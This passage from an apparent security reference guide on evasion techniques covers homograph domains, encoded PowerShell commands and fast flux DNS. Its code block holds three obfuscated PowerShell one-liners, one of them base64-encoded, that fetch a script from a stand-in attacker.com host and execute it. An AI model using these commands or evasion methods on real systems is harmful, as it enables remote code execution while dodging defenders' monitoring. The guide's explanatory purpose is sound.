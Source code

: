 #### Evasion Techniques:
- **Homograph Attacks:** Use visually similar Unicode characters
- **Subdomain Abuse:** Use subdomains of legitimate sites
- **HTTPS Certificates:** Obtain legitimate SSL certificates for credibility
- **Content Delivery Networks:** Distribute content through CDNs

### 14. Passing Encoded Commands

**Definition:** Technique of encoding malicious commands to bypass command-line monitoring and analysis systems.

#### Encoding Methods:
- **Base64 Encoding:** Encode PowerShell commands in Base64
- **Unicode Encoding:** Use Unicode representations of commands
- **ROT13/Caesar Cipher:** Simple character substitution encoding
- **Custom Encoding:** Develop application-specific encoding schemes

#### Implementation Examples:
```powershell
# Base64 encoded PowerShell command
powershell -enc SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAAaAB0AHQAcAA6AC8ALwBhAHQAdABhAGMAawBlAHIALgBjAG8AbQAvAHMAYwByAGkAcAB0AC4AcABzADEA

# Command obfuscation
$a='Invoke-WebRequest';$b='http://attacker.com/script.ps1';& $a $b|iex

# String concatenation evasion
('Inv'+'oke-Ex'+'pression') (('New-Ob'+'ject System.Net.WebC'+'lient').DownloadString('http://attacker.com/script.ps1'))
```

---

## DNS and Network Bypasses

### 15. Fast Flux DNS Method

**Definition:** Technique using rapidly changing DNS records to make malicious infrastructure difficult to block and track.

#### Implementation:
- **Rapid IP Changes:** Change A records every few minutes
- **Large IP Pools:** Use hundreds of compromised hosts as proxies
- **DNS TTL Manipulation:** Set very low TTL values for rapid updates
- **Geographically Distributed:** Spread infrastructure across multiple countries

#### Evasion Benefits:
- **Takedown Resistance:** Difficult to completely shut down infrastructure
- **IP Blacklist Evasion:** IP addresses change faster than blacklists update
- **Tracking Prevention:** Makes forensic investigation more difficult

### 16. Timing-based Evasion
